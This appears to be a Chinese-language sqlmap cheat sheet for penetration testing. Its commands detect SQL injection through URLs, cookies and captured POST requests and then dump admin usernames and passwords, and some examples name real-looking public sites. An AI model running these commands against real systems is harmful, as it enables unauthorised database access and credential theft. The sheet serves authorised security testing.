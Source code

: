 推荐网站: http://www.91ri.org/6775.html 

当什么都弄不出来的时候：--flush-session --random-agent --level=5 --risk=3 -batch

## **检测注入**

### **基本格式**

sqlmap -u “http://www.vuln.cn/post.php?id=1”

默认使用level1检测全部数据库类型

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

### **cookie注入**

当程序有防get注入的时候，可以使用cookie注入

sqlmap -u “http://www.baidu.com/shownews.asp” --cookie “id=11” --level 2（只有level达到2才会检测cookie）

### **从post数据包中注入**

可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r “c:\tools\request.txt” -p “username” --dbms mysql    指定username参数

## **注入成功后**

### **获取数据库基本信息**

#### **查询有哪些数据库**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 --dbs

#### **查询test数据库中有哪些表**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --tables

#### **查询test数据库中admin表有哪些字段**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --columns

#### **dump出字段username与password中的数据**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin -C “username,password” --dump

#### **也可以提前用--dump**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --dump

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --dump

### **从数据库中搜索字段**

**在dedecms数据库中搜索字段admin或者password。**

sqlmap -r “c:\tools\request.txt” --dbms mysql -D dedecms --search -C admin,password





## **sqlmap的高级用法**

tamper:

http://www.myh0st.cn/index.php/archives/881/

https://xz.aliyun.com/t/2746

•https://www.freebuf.com/sectool/179035.html

## 其他技巧

### 指定参数

` python27 sqlmap.py -u "http://www.yoger.com.cn/brand-info.php?brand=Victor&sortID=1"  -p sortID `



## sqlmap文档



 https://www.tr0y.wang/2018/03/21/sqlmap-guide/ 

